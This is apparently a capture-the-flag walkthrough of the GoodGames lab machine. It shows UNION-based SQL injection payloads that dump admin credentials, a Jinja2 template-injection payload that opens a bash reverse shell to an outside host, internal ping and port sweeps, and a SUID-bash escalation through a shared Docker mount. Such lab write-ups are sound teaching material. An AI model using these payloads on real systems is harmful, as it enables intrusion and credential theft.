


# GOODGAMES
* **POINTS**: 0
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.9

## 1. Recon
    └─$ nmap -sC -sV -oA nmap/initial 10.10.11.130                                                                     
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-20 16:19 EDT
    Nmap scan report for 10.10.11.130 (10.10.11.130)
    Host is up (0.13s latency).
    Not shown: 999 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.51
    |_http-title: GoodGames | Community and Store
    |_http-server-header: Werkzeug/2.0.2 Python/3.9.2
    Service Info: Host: goodgames.htb

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 28.35 seconds

### 1.1 Nmap results analysis
#
1. There is an active service on port 80 ! 

    

2. There is a DNS `goodgames.htb` that I have added in my hosts and updating the page I have not seen any changes.

3. There is a server header `Werkzeug/2.0.2 Python/3.9.2` which tells us that, in the backend, we have a python server.

It is interesting to note that on the page there is the possibility to log in.

And you can create the account !

By registering with fake credentials, you have access to the account.

But nothing can be done !

## 2. SQL Injection
Since there is a check on the validity of the email, I intercept the login request with `burp`

    POST /login HTTP/1.1
    Host: goodgames.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 32
    Origin: http://goodgames.htb
    Connection: close
    Referer: http://goodgames.htb/
    Upgrade-Insecure-Requests: 1

    email=asd%40asd.asd&password=asd

Interesting is the response that the server gives when the request is made !

    HTTP/1.1 200 OK
    Date: Sun, 22 May 2022 17:13:14 GMT
    Server: Werkzeug/2.0.2 Python/3.9.2
    Content-Type: text/html; charset=utf-8
    Vary: Cookie,Accept-Encoding
    Set-Cookie: session=eyJfZnJlc2giOmZhbHNlLCJlbWFpbCI6ImFzZEBhc2QuYXNkIiwiaWQiOjIsImxvZ2dlZGluIjp0cnVlLCJ1c2VybmFtZSI6ImFzZCJ9.YopvKg.JkzlTJ-xm3mwe7c_seebRr2_Mdk; HttpOnly; Path=/
    Connection: close
    Content-Length: 9283

    <!DOCTYPE html>

        
    <html lang="en">
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">

        <title>GoodGames | Login Success</title>

        <meta name="description" content="GoodGames - Bootstrap template for communities and games store">
        <meta name="keywords" content="game, gaming, template, HTML template, responsive, Bootstrap, premium">
        <meta name="author" content="_nK">
        <meta http-equiv="refresh" content="5; url=/profile" />

    -------------------------------SOME STUFF-------------------------------
        
        

            

                

                    

                        <h1 class="text-main-1" style="font-size: 50px;">Login Successful</h1>

                        

                        <h2 class="h4">Welcome asd</h2>

                        
Redirecting you to profile page...

                        

                        <a href="/" class="nk-btn nk-btn-rounded nk-btn-color-white">Return to Homepage</a>
                    

                

                

            

        

    

    -------------------------------SOME STUFF-------------------------------

I put `'or 1 = 1-- -;` in place of the email value. 

    <h2 class="h4">Welcome admin</h2>

Now I'm looking for the password with a _UNION SELECT_ 

Payload:

    email=' union select 1,2,3,4-- -;&password=asd

Server Response

    <h2 class="h4">Welcome 4</h2>

Now you have to see how many DBs there are

Payload:

    email=' union select 1,2,3,concat(schema_name, " ") FROM information_schema.schemata-- -;&password=asd

Server Response
    
    <h2 class="h4">Welcome blog blog_comments user </h2>

There are 2 DBs. Now you have to see how many columns the main DB is made up of.

Payload:

    email=' union select 1,2,3,concat(table_name, " ") FROM information_schema.tables WHERE table_schema="main"-- -;&password=asd

Server Response
    
    <h2 class="h4">Welcome information_schema main </h2>

The _user_ table is very interesting

Payload:

    email=' union select 1,2,3,concat(column_name, " ") FROM information_schema.columns WHERE table_name="user"-- -;&password=asd

Server Response
    
    <h2 class="h4">Welcome email id name password </h2>

Let's go and see the values !

Payload:

    email=' union select 1,2,3,concat(id, ": ", name, " ", password, " ", email) FROM user-- -;&password=asd

Server Response

    <h2 class="h4">
        Welcome 1: admin 2b22337f218b2d82dfc3b6f77e7cb8ec admin@goodgames.htb
    </h2>

We have to crack the password

Now i have all informations about _admin_ (`username = admin, passwd = superadministrator`), so i logged like it ! 

By clicking on edit we note that there is an additional DNS.

I add it to my hosts and update the page.

Using the previously used credentials we can log in.

## 3. SSTI
There are many features but the most useful for our purposes is that of updating profile data

It is important because we remember that behind the scenes there is Python and more specifically we have _Werkzeug_ which is the tool on which the `Flask` micro-framework is based. This leads us to think of an `SSTI`-type attack.

Let's try the typical payload: `{{ 7 * 7 }}`

### 3.1 Execute POC
#
I try a simple payload to see if I can get system execution via this SSTI: 

    {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

On submitting that as the name, the result returns:

  

### 3.2 Spawn Shell
#
I use the following payload to have a reverse shell:
    
    {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.5/1234 0>&1"').read() }}

In `/home/augustus` we have the user flag !

## 4. Privilege Escalation
We are obviously in a container and despite being root, i only found the user flag. The _ifconfig_ shows an IP of 172.19.0.2 on eth0.

After seeing permissions, printing / etc / passwd, seeing partitions, etc., I couldn't find anything. However, a quick ping sweep shows the presence of another host.

    root@3a453ab39d3d:~# for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
    64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.062 ms
    64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.060 ms

With a quick port scan we check which ports are open

    root@3a453ab39d3d:/tmp# for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
    22 open
    80 open

A quick curl of 172.19.0.1 returns the website, which suggests that port is being forwarded back to this container through the host.

At this point we try to connect to the host via `ssh` and see if there is `password reuse`.

    root@3a453ab39d3d:~# ssh augustus@172.19.0.1
    augustus@172.19.0.1's password: 
    Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun May 22 22:17:15 2022 from 172.19.0.2
    augustus@GoodGames:~$ 

### 4.1 Enumeration
#
Docker is in the process list, and it matches what I suspected from the container’s point of view:

    augustus@GoodGames:~$ ps auxww | grep docker
    root       908  0.0  2.1 1457176 86204 ?       Ssl  02:40   0:09 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
    root      1246  0.0  0.2 1222636 9616 ?        Sl   02:40   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8085 -container-ip 172.19.0.2 -container-port 8085

Augustus’ home directory looks the same as what I saw in the container:

    augustus@GoodGames:~$ ls --full-time -a
    total 28
    drwxr-xr-x 3 augustus augustus 4096 2022-05-22 22:40:44.469153480 +0100 .
    drwxr-xr-x 3 root     root     4096 2021-10-19 12:16:19.584362980 +0100 ..
    lrwxrwxrwx 1 root     root        9 2021-11-03 10:16:57.590030244 +0000 .bash_history -> /dev/null
    -rw-r--r-- 1 augustus augustus  220 2021-10-19 12:16:19.588362980 +0100 .bash_logout
    -rw-r--r-- 1 augustus augustus 3526 2021-10-19 12:16:19.588362980 +0100 .bashrc
    drwx------ 3 augustus augustus 4096 2022-05-22 22:41:59.061153480 +0100 .gnupg
    -rw-r--r-- 1 augustus augustus  807 2021-10-19 12:16:19.588362980 +0100 .profile
    -rw-r----- 1 root     augustus   33 2022-05-22 18:15:17.865153480 +0100 user.txt

    root@3a453ab39d3d:~# ls --full-time -a
    total 28
    drwx------ 1 root root 4096 2022-05-22 21:16:41.105153480 +0000 .
    drwxr-xr-x 1 root root 4096 2021-11-05 15:23:36.346519559 +0000 ..
    lrwxrwxrwx 1 root root    9 2021-11-05 15:28:48.128896275 +0000 .bash_history -> /dev/null
    -rw-r--r-- 1 root root  570 2010-01-31 11:52:26.000000000 +0000 .bashrc
    drwx------ 3 root root 4096 2021-11-05 15:23:27.000000000 +0000 .cache
    drwx------ 3 root root 4096 2022-05-22 20:52:55.029153480 +0000 .gnupg
    -rw-r--r-- 1 root root  148 2015-08-17 15:30:33.000000000 +0000 .profile
    drwx------ 2 root root 4096 2022-05-22 21:16:46.581153480 +0000 .ssh

The file sizes and times are exactly the same (almost - I cannot explain why three of the files are off by an hour). If I create a file on the host:

    augustus@GoodGames:~$ touch test

It shows up on the container:

    root@3a453ab39d3d:/home/augustus# ls -l from_host 
    -rw-r--r-- 1 1000 1000 0 May 22 22:08 from_host

And it works the other way:

    root@3a453ab39d3d:/home/augustus# touch from_container

It shows up on the host:

    augustus@GoodGames:~$ ls -l from_container 
    -rw-r--r-- 1 root root 0 May 22 23:11 from_container

Interestingly, the file created from the container is owned by root, and the host treats it as it’s root !

### 4.2 Shell
#
I copy /bin/bash into augustus’ home directory on the host. It’s important to use bash from the host (otherwise there will be errors in the execution)

    augustus@GoodGames:~$ cp /bin/bash .

Then in the container, I’ll change the owner to root, and set the permissions to be SUID:

    root@3a453ab39d3d:/home/augustus# ls -l bash 
    -rwxr-xr-x 1 1000 1000 1234376 May 22 22:20 bash
    root@3a453ab39d3d:/home/augustus# chown root:root bash
    root@3a453ab39d3d:/home/augustus# chmod 4777 bash
    root@3a453ab39d3d:/home/augustus# ls -l bash 
    -rwsrwxrwx 1 root root 1234376 May 22 22:20 bash

Back on GoodGames, the changes are reflected:

    augustus@GoodGames:~$ ls -l bash
    -rwsrwxrwx 1 root root 1234376 May 22 23:20 bash

Running it (with -p so that privileges aren’t dropped) returns a root shell:

    augustus@GoodGames:~$ ./bash -p
    bash-5.1#

In `/root` we have the root flag !